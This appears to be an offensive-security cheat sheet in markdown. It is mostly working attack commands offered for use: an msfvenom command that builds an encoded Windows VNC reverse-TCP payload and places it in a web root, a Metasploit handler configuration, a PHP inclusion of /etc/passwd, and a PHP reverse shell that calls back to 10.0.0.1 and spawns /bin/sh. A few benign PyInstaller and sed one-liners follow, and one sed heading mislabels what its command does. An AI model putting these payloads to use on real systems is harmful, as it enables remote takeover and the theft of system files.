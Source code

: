 ```
msfvenom -p windows/x64/vncinject/reverse_tcp LHOST=10.0.0.1 LPORT=443 -e x86/shikata_ga_nai -f exe -o /var/www/html/revvnc.exe
```

Handler Setup:
```
use exploit/multi/handler
set payload windows/vncinject/reverse_tcp
set lhost 10.0.0.1
set lport 443
set autovnc false
set DisableCourtesyShell false 
set ExitOnSession false
set viewonly false
run
```



## Python script to exe
```
C:\Users\Administrator\Desktop\pyinstaller\pyInstaller-2.1>PyInstaller.py --onefile c:\users\administrator\desktop\pythonscript.py
```
## PHP Inclusion?

```
<?php phpinfo();?>
```

## PHP File Inclusion
```
<?php include ('/etc/passwd');?>
```

## PHP - Linux Reverse Shell. 

```
<?php $sock = fsockopen("10.0.0.1",443);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);?>
```


## Add Text to the start of each line in a file:
```
sed 's/^/Start/' sourcefile  > destinationfile
```

## Add Text to the start of each line in a file:
```
sed 's/$/End/' sourcefile  > destinationfile
```
